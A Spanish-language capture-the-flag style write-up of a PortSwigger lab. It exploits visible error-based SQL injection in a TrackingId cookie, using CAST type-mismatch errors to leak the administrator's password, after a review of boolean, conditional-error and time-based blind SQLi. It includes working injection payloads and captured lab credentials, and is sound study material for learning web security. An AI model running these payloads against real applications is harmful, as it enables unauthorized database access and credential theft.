


# Write-up - PortSwigger SQLi Lab 12

Voy a hacer un laboratorio de Port Swigger. El lab 12 de SQLi (En esta url: https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Antes de nada la teoría

### REPASO DE BLIND SQLi

### 1) Respuestas condicionales (BOOLEAN-BASED)

**Escenario:** CAMBIO DE TEXTO -> WELCOME BACK.

**Estrategia:** Adivinar la info letra a letra haciendo preguntas lógicas.

```sql
xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```

### 2) Errores condicionales (CONDITIONAL ERRORS)

**Escenario:** APLICACIÓN COMPLETAMENTE INMUTABLE

- `200 OK` -> Todo se procesa correctamente
- `500 SERVER ERROR` -> "Se rompe algo por detrás"

**Estrategia:** Utilizar "Detonador de errores"

- Operaciones matemáticas ilegales (`1/0`) solo cuando sean verdaderas nuestras sentencias
- En caso contrario la sentencia se ejecuta correctamente

Para bbdd **ORACLE**:

```sql
xyz' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '
```

### 3) Extracción de datos via Errores Detallados (Verbose Errors)

**Escenario:** Servidor mal config. Modo (debug)

- Si provocamos un error -> BBDD enseña la excepción al completo y los motivos del fallo por pantalla.

**Estrategia:** Utilizamos la función `CAST()` -> Provocar conflicto de datos.

```sql
xyz' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

Esta sentencia arroja un error -> **Type Mismatch** -> BBDD colapsa

Se genera una excepción -> Se imprime por pantalla al usuario. (**No hemos tenido que adivinar nada**)

### 4) Retrasos de tiempo (Time-Based)

**Escenario:** Aplicación totalmente robusta. No cambia ni arroja errores. (Imposible de visualizar cambios)

**Estrategia:** Usar el tiempo como canal lateral (Indicador binario).

- Cuando SENTENCIA sea VERDADERA -> Pausar X segundos la bbdd
- En caso contrario -> Respuesta de la bbdd instantánea

```sql
xyz'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

### 5) Técnicas OAST - Out-of-Band

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## TEORIA: Extracting sensitive data via verbose SQL error messages

### 1) Visualización de errores como mapa

```text
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = ''.
Expected char
```

### 2) Técnica CAST

**Mecanismo:** Convertir un tipo de dato en otro distinto -> De manera incompatible e imposible de realizar.

```sql
CAST((SELECT password FROM users LIMIT 1) AS int) -> secreto
```

Esta sentencia arroja un error -> **Type Mismatch** -> BBDD colapsa

Se genera una excepción -> Se imprime por pantalla al usuario. (**No hemos tenido que adivinar nada**)

### 3) Ventaja adicional -> Evasión de límites -> Ataque mas ligero

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Laboratorio: Inyección SQL Visible Basada en Errores

Este laboratorio contiene una vulnerabilidad de inyección SQL. La aplicación utiliza una cookie de rastreo para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada. Los resultados de la consulta SQL no se devuelven directamente.

La base de datos contiene una tabla distinta llamada `users`, con columnas llamadas `username` y `password`.

### Objetivo del Laboratorio

Encontrar una forma de filtrar (leak) la contraseña del usuario `administrator`.

Iniciar sesión en su cuenta para resolver el laboratorio.

### Notas de Análisis (Contexto)

- **Vector de ataque:** Cookie de rastreo (`TrackingId`).
- **Tipo de vulnerabilidad:** Inyección SQL basada en errores (Error-based). Aunque los resultados de la consulta no se muestran ("blind" inicial), el objetivo es forzar un mensaje de error que sí sea visible y que contenga la información de la tabla `users`.
- **Técnica recomendada:** Utilizar funciones como `CAST()` para provocar un error de conversión de datos que imprima la contraseña en el mensaje de error del servidor.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Vamos a llevar a cabo esto de forma práctica

Le damos a empezar laboratorio y se nos abre la siguiente página web:

`https://0a8b00ce0487fbee807171eb00aa0052.web-security-academy.net/`

La página web tiene el aspecto de la imagen 1.


**Referencia a la imagen 1:** Vista inicial del laboratorio. Se observa la tienda de PortSwigger con apariencia normal, sin ningún parámetro claramente explotable a simple vista. El punto importante de este laboratorio no está en la URL visible sino en la cookie `TrackingId`, que la aplicación usa para construir una consulta SQL interna.

Una vez dentro, abrimos burpsuitepro y en el navegador activamos el FoxyProxy para que en el HTTP History vayan apareciendo las distintas Requests mientras navegamos por la página. Como ya nos da pistas la descripción del laboratorio, tenemos una cookie de rastreo que la aplicación usa internamente para hacer una consulta SQL. Para ello, nos vamos a la categoria de Gifts => `https://0a8b00ce0487fbee807171eb00aa0052.web-security-academy.net/filter?category=Gifts`

y capturamos la petición de burpsuite: `GET /filter?category=Gifts HTTP/1.1`
y la enviamos al Repeater:

```http
GET /filter?category=Gifts HTTP/1.1
Host: 0a8b00ce0487fbee807171eb00aa0052.web-security-academy.net
Cookie: TrackingId=xfDrHp8RwvssXfK3; session=HJ5llQqs2Z9x0vbYqX3dQsaMDkqoRhoE
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8b00ce0487fbee807171eb00aa0052.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Efectivamente tenemos la cookie de la que hemos hablado antes:

```http
Cookie: TrackingId=xfDrHp8RwvssXfK3;
```

Si le damos a Send nos devuelve una Response con este mensaje:

```http
HTTP/2 200 OK
```

### Primera comprobación de vulnerabilidad

Si probamos a modificar la Cookie `TrackingId` de esta manera =>

```http
TrackingId=xfDrHp8RwvssXfK3';
```

nos devuelve:

```http
HTTP/2 500 Internal Server Error
```

Con este mensaje:

```text
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'xfDrHp8RwvssXfK3''. Expected  char
```

Que nos confirma la vulnerabilidad.

Nos arroja información además de la consulta que se está haciendo: Una consulta SQL (`in SQL`) =>

```sql
SELECT * FROM tracking WHERE id = 'xfDrHp8RwvssXfK3''
```

### ¿Por qué esto confirma la vulnerabilidad?

Porque el servidor no está devolviendo un error genérico, sino un mensaje muy específico del motor SQL. Nos está diciendo que al construir la consulta, la cadena quedó mal cerrada. Eso significa que el valor de la cookie está siendo incrustado directamente dentro de una query SQL sin sanitización adecuada.

Lo importante aquí es que el servidor está revelando:

1. la estructura aproximada de la consulta
2. la posición en la que se rompe
3. el propio fragmento SQL que está ejecutando

Eso es exactamente lo que hace tan potente una vulnerabilidad **visible error-based**.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Probar CAST para obtener un error útil

Ahora ponemos:

```http
Cookie: TrackingId=xfDrHp8RwvssXfK3' AND CAST((SELECT 1) AS int)--;
```

### Análisis del Payload

Estás inyectando esto en la Cookie:

```sql
' AND CAST((SELECT 1) AS int)--
```

- `'`: Rompes la cadena original de la consulta SQL.
- `AND`: Intentas añadir una condición lógica a la consulta original.
- `CAST((SELECT 1) AS int)`: Aquí es donde ocurre el "truco". Estás intentando transformar el número `1` en un entero (`int`). Aunque el `1` ya es un número, el motor de la base de datos procesa esta función.
- `--`: Comentas el resto de la consulta original para que no cause errores de sintaxis adicionales.

### ¿Por qué sale ese ERROR específico?

El servidor te responde:

```text
ERROR: argument of AND must be type boolean, not type integer
```

Este error es oro puro porque te confirma dos cosas:

#### La inyección funciona
El servidor ha intentado ejecutar tu comando `CAST`. Si no fuera vulnerable, te daría un error genérico o simplemente ignoraría la cookie.

#### La estructura de la consulta
El operador `AND` espera que lo que viene después sea una comparación (algo que resulte en Verdadero o Falso, es decir, un booleano). Como `CAST((SELECT 1) AS int)` devuelve simplemente el número `1` (un entero), la base de datos se queja diciendo:

> "Oye, no puedo hacer un `AND` con un número, necesito un valor booleano"

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## El siguiente paso hacia la "Explotación Verbosa"

```sql
' AND 1=CAST((SELECT 1) AS int)--
```

y nos devuelve:

```http
HTTP/2 200 OK
```

Cuando el servidor devuelve un `HTTP/2 200 OK`, significa que la consulta SQL es sintácticamente perfecta y se ha ejecutado sin errores.

### Aquí tienes la explicación de por qué este payload específico "limpió" el error anterior y qué significa para tu ataque

#### 1. El Análisis del Payload (La corrección booleana)

En el paso anterior, el servidor se quejaba de que un `AND` no podía ir seguido de un número (`integer`). Ahora has hecho esto:

```sql
' AND 1=CAST((SELECT 1) AS int)--
```

`1=CAST(...)`: Ahora no le estás pasando un número a secas al `AND`. Le estás pasando una comparación.

Como el resultado de `CAST((SELECT 1) AS int)` es `1`, la expresión final que ve la base de datos es:

```sql
... AND 1=1
```

`1=1` es una verdad absoluta (un valor booleano `TRUE`). Al `AND` le encanta esto.

#### 2. ¿Por qué el `200 OK` es tan importante?

El `200 OK` te confirma que has superado dos barreras:

- **Barrera de Sintaxis:** Tu uso de comillas, paréntesis y comentarios (`--`) es correcto. El motor SQL entendió todo el comando.
- **Barrera de Tipos:** Al añadir el `1=`, has satisfecho la necesidad del `AND` de recibir un valor booleano.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Probar la tabla users

Ahora probamos:

```http
Cookie: TrackingId=AND 1=CAST((SELECT username from users) AS int)--;
```

### 1. El Orden de Ejecución (Parsing)

Cuando envías una consulta a una base de datos, el motor SQL sigue un orden lógico para procesarla:

1. **Análisis Sintáctico (Syntax):** ¿Están bien puestos los paréntesis, comillas y palabras clave?
2. **Análisis Semántico (Objetos):** ¿Existen las tablas y columnas que mencionas?
3. **Ejecución:** Ejecutar la lógica y devolver datos.

En tu caso, el servidor ha llegado al paso 2. Si la tabla `users` no existiera, el motor SQL se habría detenido inmediatamente y te habría gritado un error mucho más temprano:

```text
ERROR: table "users" does not exist
```

### 2. El "Silencio" del Error Semántico

Fíjate en el error que recibiste:

```text
... AND 1=CAST((SELECT username from users) AS'. Expected char
```

El error es de sintaxis al final de la cadena (debido al truncamiento de caracteres que vimos antes). Esto significa que el motor SQL ya aceptó todo lo anterior. Para que el motor SQL llegue a preocuparse por la falta de una comilla al final, primero tuvo que validar que `SELECT username FROM users` era una instrucción válida.

Si `users` fuera un nombre inventado, el error de "tabla no encontrada" tendría prioridad sobre el error de "cadena no terminada".

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Confirmar que la consulta se ejecuta y que la tabla users existe

Ahora ponemos para confirmar que la consulta se ejecuta y por tanto que la tabla `users` existe, ya que antes no lo podíamos saber por la longitud de la consulta con el `TrackingId` que no dejaba ejecutar el resto de la consulta (eliminamos por tanto el `TrackingId`):

```http
Cookie: TrackingId=' AND 1=CAST((SELECT username from users) AS int)--
```

Response:

```http
HTTP/2 500 Internal Server Error
```

```text
ERROR: more than one row returned by a subquery used as an expression
```

El servidor te está dando un Error 500, pero no es por un fallo de sintaxis, sino por un fallo de cantidad.

### 1. El Análisis del Error: "More than one row"

El motor de la base de datos te está diciendo:

> "Me has pedido que compare 1 con el resultado de una consulta, pero esa consulta me ha devuelto una lista de usuarios, no uno solo, y no sé con cuál de todos quieres que me compare".

Cuando haces `SELECT username FROM users`, la base de datos intenta devolver todos los nombres de la tabla (`admin`, `Carlos`, `María`, etc.). Como la función `CAST` y la comparación `1=` esperan un único valor (un escalar), el sistema colapsa.

### 2. ¿Por qué esto es una excelente noticia?

Este error te confirma dos cosas fundamentales para tu auditoría:

- La tabla no está vacía: Confirmas que hay datos dentro.
- Hay varios usuarios: Sabes que existe más de una fila en la tabla `users`.

### 3. Cómo solucionarlo (La técnica del LIMIT)

Para extraer la contraseña que necesitas para el laboratorio, debes obligar a la base de datos a devolver solo una fila a la vez. Para eso usamos la cláusula `LIMIT`.

Si quieres el primer usuario (que normalmente es el administrador):

```sql
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

Si quisieras el segundo usuario:

```sql
' AND 1=CAST((SELECT username FROM users LIMIT 1 OFFSET 1) AS int)--
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Extraer el primer username

Ahora ponemos:

```http
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

Response:

```http
HTTP/2 500 Internal Server Error
```

```text
ERROR: invalid input syntax for type integer: "administrator"
```

### El Análisis del Éxito: "administrator"

Al añadir `LIMIT 1`, has solucionado el error de "más de una fila". Ahora, la base de datos ha podido ejecutar la consulta completa y este es el proceso que ha seguido internamente:

1. **Consulta:** Ejecuta `SELECT username FROM users LIMIT 1`.
2. **Resultado:** Obtiene el valor `"administrator"`.
3. **Conversión:** Intenta ejecutar `CAST('administrator' AS int)`.
4. **Fallo:** El motor SQL dice: "No puedo convertir la palabra `'administrator'` en un número entero".
5. **Confesión:** Al generar el error, la base de datos incluye el valor que intentó convertir para ayudarte a "depurar", exponiendo así el dato sensible.

### El Paso Final para Resolver el Laboratorio

Ya sabes que el primer usuario es `administrator`. Ahora solo tienes que cambiar la columna que quieres "quemar" en el error. En lugar de pedir el `username`, pide el `password`.

Payload Final:

```http
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Extraer la contraseña del administrator

Ahora ponemos:

```http
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

y obtenemos:

```http
HTTP/2 500 Internal Server Error
```

Con el error:

```text
ERROR: invalid input syntax for type integer: "t8sy6mpf3041g1zg1oeh"
```

Ese valor que ves ahí, `"t8sy6mpf3041g1zg1oeh"`, es la contraseña en texto plano del usuario `administrator`.

### Aquí tienes la explicación final de lo que ha sucedido y cómo cerrar el laboratorio

#### 1. El Resultado Final: Exfiltración de la Contraseña

Al ejecutar este último payload, has forzado a la base de datos a realizar el siguiente proceso:

1. Busca en la tabla `users`.
2. Extrae el valor de la columna `password` de la primera fila (`LIMIT 1`).
3. Intenta convertir esa cadena de texto (`"t8sy6mpf3041g1zg1oeh"`) en un número entero.
4. Al fallar, el servidor imprime el valor exacto que causó el error en la respuesta HTTP.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Login final con el usuario administrator

Nos vamos a **My Account** y nos logueamos con las credenciales de `administrator`:

- **Usuario:** `administrator`
- **Contraseña:** `t8sy6mpf3041g1zg1oeh`

(imagen 2)



**Referencia a la imagen 2:** Formulario de login rellenado con las credenciales obtenidas mediante la inyección SQL basada en errores visibles.

Y le damos a login y entramos en el panel de `administrator` y nos dice laboratorio resuelto (imagen 3)



**Referencia a la imagen 3:** Panel de la cuenta `administrator` y banner final de PortSwigger indicando que el laboratorio ha sido resuelto correctamente.

### Aquí tienes la explicación final de lo que ha sucedido y cómo cerrar el laboratorio

#### 1. El Resultado Final: Exfiltración de la Contraseña

Al ejecutar este último payload, has forzado a la base de datos a realizar el siguiente proceso:

- Busca en la tabla `users`.
- Extrae el valor de la columna `password` de la primera fila (`LIMIT 1`).
- Intenta convertir esa cadena de texto (`"t8sy6mpf3041g1zg1oeh"`) en un número entero.
- Al fallar, el servidor imprime el valor exacto que causó el error en la respuesta HTTP.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Resumen técnico completo del proceso

En este laboratorio no hemos hecho una blind SQLi tradicional de ir adivinando letra por letra. Aquí hemos aprovechado una mala configuración del servidor que muestra errores detallados del motor SQL.

La secuencia real ha sido:

1. **Detectar que el TrackingId rompe la consulta**
   - con una comilla simple final
   - observando el error `Unterminated string literal`

2. **Corregir semánticamente la inyección**
   - usando `1=CAST((SELECT 1) AS int)`
   - para que el `AND` reciba un booleano

3. **Confirmar la existencia de la tabla `users`**
   - viendo errores que indican múltiples filas
   - lo que implica tabla válida y con contenido

4. **Limitar a una sola fila**
   - usando `LIMIT 1`

5. **Forzar una conversión imposible**
   - `CAST(username AS int)`
   - `CAST(password AS int)`

6. **Dejar que la base de datos "confiese"**
   - imprimiendo el valor exacto que no pudo convertir

7. **Usar ese dato para autenticarnos**
   - login como `administrator`

### Ventajas de esta técnica

- No necesitas boolean-based
- No necesitas errores condicionales con `CASE`
- No necesitas time-based
- No necesitas bruteforce de 20 posiciones
- Es mucho más rápida y ligera

### La idea clave del laboratorio

**No estás preguntando letra por letra.**
**Estás provocando una excepción que muestra directamente el secreto.**

Eso convierte una vulnerabilidad "blind" inicial en una **Visible error-based SQL injection** muy poderosa.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Payloads clave utilizados

### Confirmación de vulnerabilidad con comilla rota
```http
TrackingId=xfDrHp8RwvssXfK3';
```

### Corrección booleana con CAST
```sql
' AND 1=CAST((SELECT 1) AS int)--
```

### Comprobación de múltiples filas
```sql
' AND 1=CAST((SELECT username from users) AS int)--
```

### Extracción del primer username
```sql
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

### Extracción del password
```sql
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Credenciales obtenidas

- **Usuario:** `administrator`
- **Contraseña:** `t8sy6mpf3041g1zg1oeh`

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Conclusión

Este laboratorio demuestra una idea especialmente potente dentro del mundo de SQL injection:

Cuando el servidor está mal configurado y expone mensajes de error detallados, la explotación puede volverse muchísimo más directa.

En vez de:

- inferir booleanos
- provocar retrasos
- enumerar carácter a carácter

lo que haces es forzar una **conversión imposible** para que el propio motor de base de datos te enseñe el dato sensible dentro del mensaje de error.

Eso es exactamente lo que pasa aquí con `CAST(... AS int)`.

La base de datos intenta convertir una cadena como `"administrator"` o `"t8sy6mpf3041g1zg1oeh"` en entero, falla, y al fallar imprime el valor que intentó convertir.

Y con eso, resuelves el laboratorio de forma mucho más rápida y elegante.

**Laboratorio resuelto.**
